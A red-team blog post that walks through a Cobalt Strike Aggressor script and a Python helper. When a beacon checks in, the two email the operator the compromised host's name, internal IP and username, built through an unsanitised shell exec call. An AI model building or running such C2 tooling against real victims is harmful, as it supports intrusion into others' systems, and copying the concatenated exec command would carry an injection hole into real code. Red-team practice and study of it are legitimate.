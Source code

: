 ```yaml
---
layout: post
title: "Cobalt Strike Aggressor Script"
permalink: "cobaltscripts"
date: 14-07-2023
categories: Blog
---
```


Over the past few days I have been trying to get back into playing around with Cobalt Strike more to up my Red Teaming game. As part of that, and to get some practice, I thought I would try to write a simple aggressor script.

The sole purpose of the script would be to email me when a beacon checks in. I imagine after a phishing campaign is sent out, you don't want to be sitting by your screen constantly waiting for a beacon, so this might make life easier.

The two pieces of code required are:

- An aggressor script loaded into Cobalt Strike to monitor when a beacon checks in. This I simply called 'email.cna'.
- A Python script named 'emailme.py' that is called by the aggressor script to send an email on check in.


### Scripts

The aggressor script can be seen below, and is simply placed within the 'on beacon_initial' function which gets called on beacon check in. It then extracts some fields of interest from the beacon such as the IP, computer name and username and passes them to the Python email script.

**email.cna:**
{% highlight powershell %}
on beacon_initial {
    println("Initial Beacon Checkin: " . $1 . " PID: " . beacon_info($1,"pid"));

    local('$internalIP $computerName $userName');
    $internalIP = replace(beacon_info($1,"internal")," ","_");
    $computerName = replace(beacon_info($1,"computer")," ","_");
    $userName = replace(beacon_info($1,"user")," ","_");
    $cmd = '/home/kali/emailme.py --computername ' . $computerName . " --internalip " . $internalIP . " --username " . $userName;
    exec($cmd);
}
{% endhighlight %}


Next up we have to build the Python script which I have also shown below. It is quite self explanatory but I guess some mail providers might require app passwords and the like, such as Gmail which might make it trickier.
If this is the case try to use a more basic email account if you have one that maybe offers you more control.


**emailme.py:**
{% highlight powershell %}
#!/usr/bin/env python  

import smtplib
import argparse
from email.mime.text import MIMEText

parser = argparse.ArgumentParser(description='beacon info')
parser.add_argument('--computername')
parser.add_argument('--internalip')
parser.add_argument('--username')
args = parser.parse_args()
computername = args.computername
internalip = args.internalip
username = args.username  

subject = "New Beacon Checkin"
body = "Checkin from Beacon with hostname:" + computername + ", with IP: " + internalip + " and from user: " + username
sender = "yourname@youremail.org"
recipients = ["test@testreceipt.com"]
password = "YourPassword"

def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = ', '.join(recipients)
    with smtplib.SMTP_SSL('smtp.yoursmtp.com', 465) as smtp_server:
       smtp_server.login(sender, password)
       smtp_server.sendmail(sender, recipients, msg.as_string())
    print("Message sent!")


send_email(subject, body, sender, recipients, password)
{% endhighlight %}


Finally the last thing to do is to load the Aggressor script into Cobalt Strike as shown below, by using the 'Script Manager' window.


<img alt="cs" src="/assets/img/CNA-LOADED.jpg"/>


The next time a beacon checks in you should receive an email that it has done so. This has been fun playing around with CS again and hopefully this saves you some time.

I think next up I might build a complete C2 infrastructure on Azure, with redirectors back to my C2 hosted elsewhere, just to practice that aspect of Red Teaming. Stay tuned!
